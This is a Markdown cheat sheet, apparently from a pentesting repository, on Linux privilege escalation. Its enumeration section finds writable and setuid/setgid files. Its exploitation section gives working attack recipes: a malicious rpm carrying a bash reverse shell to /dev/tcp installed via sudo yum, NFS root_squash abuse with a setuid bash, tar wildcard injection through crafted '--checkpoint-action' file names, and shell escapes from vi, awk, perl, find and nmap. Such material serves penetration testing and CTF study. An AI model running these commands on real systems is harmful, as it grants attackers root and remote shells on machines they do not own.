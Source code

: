# Linux Privilege Escalation

## Enumeration
___
### Files and folders
- Look for writable directories
```sh
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

- Look for writable directories in PATH
```sh
IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;
```

- Look for writable files
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

- Look for group membership / special access
```sh
id
find / -type f -group group_name 2> /dev/null
```

- Look for scripts/binaries with setuid
```sh
find / -perm -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /4000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Look for scripts/binaries with setgid
```sh
find / -perm /2000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /2000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Sneak into /var/log/audit
```sh
grep comm=\"su\" /var/log/audit/*
```

### Cron jobs
- Look for cron jobs executed as root
```
TODO
```

- Look for writable script/binaries from above cron jobs
```
TODO
```

### Binaries

- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Exploitation
___

### YUM
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```sh
# Create a script with reverse shell commands
cat << EOF > root.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
EOF

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### NFS

- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### Wildcard Injection

- Exploit tar with wildcard
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
# Wait for tar to run as root
```

### Shell escape sequence
| Tool | Escape Sequence |
| --- | --- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell` |
| awk | `awk 'BEGIN {system(\"/bin/bash\")}'` |
| perl | `perl -e 'exec \"/bin/bash\";'` |
| find | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap | `--interactive` |

## Links
___
### Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/

### Writeups
- https://blog.tryhackme.com/skynet-writeup/